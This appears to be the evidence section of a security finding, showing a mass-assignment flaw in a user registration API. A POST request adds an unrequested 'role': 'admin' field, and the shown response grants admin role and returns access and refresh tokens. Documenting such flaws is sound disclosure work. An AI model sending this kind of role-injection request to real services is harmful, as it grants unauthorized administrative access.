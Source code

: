 #### Evidence
- Request  

    ```json
    POST /v1/auth/register HTTP/1.1
    Content-Type: application/json
   

    {
        "name":"Mass assignment","
        email":"mass.assignment@silverskin.fi",
        "password":"test12345",
        "role":   "admin"
    }
    ```

- Respone
    ```json
    {
    "user": {
        "role": "admin",
        "isEmailVerified": false,
        "name": "Mass assignment",
        "email": "mass.assignment@silverskin.fi",
        "id": "672d0cff494d2a0490c36784"
    },
    "tokens": {
        "access": {
        "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiI2NzJkMGNmZjQ5NGQyYTA0OTBjMzY3ODQiLCJpYXQiOjE3MzEwMDU2OTUsImV4cCI6MTczMTAyMzY5NSwidHlwZSI6ImFjY2VzcyJ9.hEzZ40CmgX5qCfJjqlDpAvo15Kt6Q97VRMdvAgrjggA",
        "expires": "2024-11-07T23:54:55.968Z"
        },
        "refresh": {
        "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiI2NzJkMGNmZjQ5NGQyYTA0OTBjMzY3ODQiLCJpYXQiOjE3MzEwMDU2OTUsImV4cCI6MTczMzU5NzY5NSwidHlwZSI6InJlZnJlc2gifQ.yukWMsGRUZDvU-DJ4_1TYxkH7EAEDkFKppCRTAbFVkQ",
        "expires": "2024-12-07T18:54:55.969Z"
        }
    }
    }
    ```
![mass-assignment-user-role](Evidence/mass-assignment-user-role.png)
